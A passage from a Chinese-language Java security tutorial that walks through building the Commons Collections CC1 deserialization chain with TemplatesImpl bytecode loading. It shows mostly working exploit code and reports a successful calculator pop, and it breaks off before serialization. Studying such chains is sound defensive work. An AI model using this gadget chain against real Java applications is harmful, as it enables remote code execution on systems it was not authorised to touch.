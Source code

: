 ```java=
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 chainedTransformer.transform(1);   
}
```
最后一句，传入 chainedTransformer.transform(1) 是因为前面我们定义了 new ConstantTransformer(templates)，这个类是需要我们传参的，传入 1 即可。

![](https://i.imgur.com/JIDBsNV.png)

OK，弹计算器成功，接下来是把 CC1 链的前半部分拿进去。

### CC1 Templates exp
```java=
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
  
import java.io.*;  
import java.lang.annotation.Target;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
public class CC1TemplatesEXP {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates,"Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates,codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 // templates.newTransformer();  
  
 Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(templates),  
 new InvokerTransformer("newTransformer", null, null)  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 //   chainedTransformer.transform(1);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 hashMap.put("value","drunkbaby");  
 Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);  
 Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
 Constructor aihConstructor = c.getDeclaredConstructor(Class.class, Map.class);  
 aihConstructor.setAccessible(true);  
 Object o = aihConstructor.newInstance(Target.class, transformedMap);  
 // 序列化反序列化  
```